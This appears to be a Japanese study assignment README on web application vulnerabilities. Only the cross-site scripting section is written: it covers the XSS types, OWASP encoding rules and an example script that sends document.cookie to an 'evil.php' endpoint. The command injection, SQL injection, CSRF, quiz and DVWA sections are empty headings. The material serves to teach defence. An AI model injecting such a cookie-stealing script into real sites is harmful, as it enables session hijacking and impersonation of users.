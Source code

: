 # Webアプリケーションの脆弱性を理解する

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
<details>
<summary>Table of Contents</summary>

- [課題1 基本的な脆弱性を理解する](#%E8%AA%B2%E9%A1%8C1-%E5%9F%BA%E6%9C%AC%E7%9A%84%E3%81%AA%E8%84%86%E5%BC%B1%E6%80%A7%E3%82%92%E7%90%86%E8%A7%A3%E3%81%99%E3%82%8B)
  - [クロスサイトスクリプティング](#%E3%82%AF%E3%83%AD%E3%82%B9%E3%82%B5%E3%82%A4%E3%83%88%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%97%E3%83%86%E3%82%A3%E3%83%B3%E3%82%B0)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B)
    - [参考資料](#%E5%8F%82%E8%80%83%E8%B3%87%E6%96%99)
  - [コマンドインジェクション](#%E3%82%B3%E3%83%9E%E3%83%B3%E3%83%89%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B-1)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B-1)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B-1)
  - [SQLインジェクション](#sql%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B-2)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B-2)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B-2)
  - [CSRF](#csrf)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B-3)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B-3)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B-3)
- [課題2 クイズ](#%E8%AA%B2%E9%A1%8C2-%E3%82%AF%E3%82%A4%E3%82%BA)
- [課題3 DVWAで実演する](#%E8%AA%B2%E9%A1%8C3-dvwa%E3%81%A7%E5%AE%9F%E6%BC%94%E3%81%99%E3%82%8B)

</details>
<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## 課題1 基本的な脆弱性を理解する

### クロスサイトスクリプティング

#### どういった脆弱性なのか

**クロスサイトスクリプティング（XSS）** 攻撃は、悪意のあるスクリプトを脆弱性のあるWebサイトに注入し、クライアントのブラウザ上でコードを実行する攻撃である。

悪意のあるスクリプトをブラウザ上で実行させることで、ブラウザが保持している対象のサイトでの **Cookie、セッショントークンなどの機密情報** を盗み出し、 **ユーザになりすます** などの攻撃が実行される可能性がある。

XSS は2017年時点で、Webアプリケーションの脆弱性の中で7番目に被害が多い攻撃である。

特徴は対象のWebアプリケーションが、ユーザからの入力を検証しなかったり、エンコードせずに保存してしまい、そのままHTMLとして出力してしまうような場合にどこでも発生する点である。

XSS には主に以下の3種類が存在している。

| 名称          | 概要                                                                                                                                                                                                                                                                                       | 
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | 
| Stored XSS    | データベース、メッセージフォーラム、訪問者ログ、コメントフィールドなど、対象のサーバにユーザの入力が蓄積されている場合に発生する。<br><br>被害者は、サーバからのデータを検証することなくブラウザでレンダリングを実行すると、悪意のあるスクリプトが実行される。                             | 
| Refrected XSS | ユーザからの入力を受けて、その一部や全部を即座にエラーメッセージ、検索結果、そのほかのレスポンスに反映してしまう場合に発生する。                                                                                                                                                           | 
| DOM based XSS | 悪意のあるデータの流れがすべてブラウザ上で発生する、つまり悪意のあるデータがDOMにあり、そのDOMからほかのDOMへのデータが流れるような場合に発生する。<br><br>例えば悪意のあるデータ、DOMのHTML要素（document.location.href）から注入されたり、document.writeで書き込まれたりする場合である。 | 

#### どういった被害が発生しているのか

Webアプリケーションが、ユーザの入力を何も検証していない場合、攻撃者は認証されたユーザからCookie情報を盗むことが可能となる。

例えば以下のスクリプトを脆弱性のある掲示板に注入し、ユーザが対象のページのHTMLをリクエストしてしまうと、攻撃者のサイトに対してユーザが対象のサイトで保持しているCookie情報が盗まれてしまう。

```js
<script type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</script>
```

これでエスケープ処理されたCookieの中身が変数`cakemonster`に格納された状態で、`evil.php`へのリクエストが送信されてしまう。

後は攻撃者は抜き取ったCookieに格納されているセッション情報などを使用して、被害者になりすますことが可能となる。

#### どのような対策を講じるべきか

**Stored XSS** と **Refrected XSS** に関しては、サーバ側でユーザ入力に対して適切な検証処理とエンコーディングを実装することで対処することができる。

なお入力に対する検証処理を実装する場合には、独自に実装を行うよりも使用している言語で提供されているエンコーディング用のライブラリを使用するほうが安全である。

**DOM based XSS** では、いくつかのルールに従うことで対処することが可能であるが、そのルールの詳細は [DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) を要参照する。

では以下に具体的な XSS を防止するためのルールを記載する。なおルールの詳細は [XSS Prevention Rules](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-prevention-rules) に記載されているが、リンク先でも指摘されているように、ルール0を基本として、ルール1とルール2で十分な場合が多いため、この2つのルールを説明する。

| 名称      | 概要                                                                                                                                                                                                                                                                                         | 
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | 
| ルール#０ | 原則として検証を行っていないような信頼できないデータは、どのようなものであってもHTMLの文書に注入しないようにする。<br><br>`<script>`タグやHTMLコメント `<!-- comment -->` 、タグの名称やその属性名、CSSなどあらゆる要素で、信頼していないデータは注入してはいけない。                        | 
| ルール#1  | HTML文書に信頼していないデータを挿入する前に、必ず入力値をHTMLエンコードする。<br><br>これは例えばユーザ入力に対して、以下の文字をHTMLエンコードした後でHTML文書に挿入するという意味になる。<br><br>```html<br> & --> &amp;<br> < --> <<br> > --> ><br> " --> &quot;<br> ' --> &#x27;<br>``` | 
| ルール#2  | `<div attr=...>` のようにHTMLタグなどの属性値に値を挿入する前に、値をHTMLエンコードする。<br><br>アルファベット文字以外のすべてをASCIIに変換することで悪意のあるスクリプト実行を防ぐことができる                                                                                             | 

さらに詳細を知りたい場合は、参考資料のチートシートを参照する。

#### 参考資料

- [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [Cross Site Scripting Prevention Cheat Sheet¶](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

### コマンドインジェクション

#### どういった脆弱性なのか

#### どういった被害が発生しているのか

#### どのような対策を講じるべきか

### SQLインジェクション


#### どういった脆弱性なのか

#### どういった被害が発生しているのか

#### どのような対策を講じるべきか

### CSRF


#### どういった脆弱性なのか

#### どういった被害が発生しているのか

#### どのような対策を講じるべきか

## 課題2 クイズ



## 課題3 DVWAで実演する